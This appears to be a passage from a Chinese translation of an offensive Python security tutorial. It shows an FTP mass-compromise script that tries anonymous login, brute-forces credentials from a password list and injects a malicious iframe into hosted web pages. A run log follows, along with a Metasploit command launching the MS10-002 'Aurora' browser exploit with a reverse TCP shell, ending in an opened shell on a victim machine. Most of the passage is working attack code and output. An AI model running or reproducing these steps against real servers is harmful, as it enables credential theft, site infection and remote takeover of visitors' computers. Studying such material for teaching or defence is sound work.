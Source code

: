 ```
    tgtHosts = str(options.tgtHosts).split(', ')
    passwdFile = options.passwdFile
    redirect = options.redirect
    if tgtHosts == None or redirect == None:
        print parser.usage
        exit(0)
    for tgtHost in tgtHosts:
        username = None
        password = None
        if anonLogin(tgtHost) == True:
            username = 'anonymous'
            password = 'me@your.com'
            print '[+] Using Anonymous Creds to attack'
            attack(username, password, tgtHost, redirect)
        elif passwdFile != None:
            (username, password) = bruteLogin(tgtHost, passwdFile)
        if password != None:
            print'[+] Using Creds: ' + username + '/' + password + ' to attack'
            attack(username, password, tgtHost, redirect)

if __name__ == '__main__':
    main() 
```

运行我们的脚本攻击一个脆弱的 FTP 服务器，我们看到它尝试匿名登陆失败，然后暴力破解获得用户名和密码，然后下载和注入代码到每一个基目录里的文件。

```
attacker# python massCompromise.py -H 192.168.95.179 -r '<iframe src=" http://10.10.10.112:8080/exploit"></iframe>' -f userpass.txt
[-] 192.168.95.179 FTP Anonymous Logon Failed.
[+] Trying: administrator/password
[+] Trying: admin/12345
[+] Trying: root/secret
[+] Trying: guest/guest
[*] 192.168.95.179 FTP Logon Succeeded: guest/guest
[+] Found default page: index.html
[+] Found default page: index.php
[+] Downloaded Page: index.html
[+] Injected Malicious IFrame on: index.html
[+] Uploaded Injected Page: index.html
[+] Downloaded Page: index.php
[+] Injected Malicious IFrame on: index.php
[+] Uploaded Injected Page: index.php
[+] Injected Malicious IFrame on: testmysql.php 
```

我们确保我们的攻击向量在运行，然后等待客户机连接到我们受感染的 WEB 服务器上。很快，`10.10.10.107`访问了服务器然后重定向到了我们的恶意服务器上。成功！我们通过被感染的 FTP 服务器得到了一个受害者主机的命令行 Shell。

```
attacker# msfcli exploit/windows/browser/ms10_002_aurora LHOST=10.10.10.112 SRVHOST=10.10.10.112 URIPATH=/exploit PAYLOAD=windows/shell/reverse_tcp LHOST=10.10.10.112 LPORT=443 E
[*] Please wait while we load the module tree...
<...SNIPPED...>
[*] Exploit running as background job.
[*] Started reverse handler on 10.10.10.112:443
[*] Using URL:http://10.10.10.112:8080/exploit
[*] Server started.
msf exploit(ms10_002_aurora) >
[*] Sending Internet Explorer "Aurora" Memory Corruption to client 10.10.10.107
[*] Sending stage (240 bytes) to 10.10.10.107
[*] Command shell session 1 opened (10.10.10.112:443 -> 10.10.10.107:65507) at 2012-06-24 10:02:00 -0600
msf exploit(ms10_002_aurora) > sessions -i 1
[*] Starting interaction with 1...
```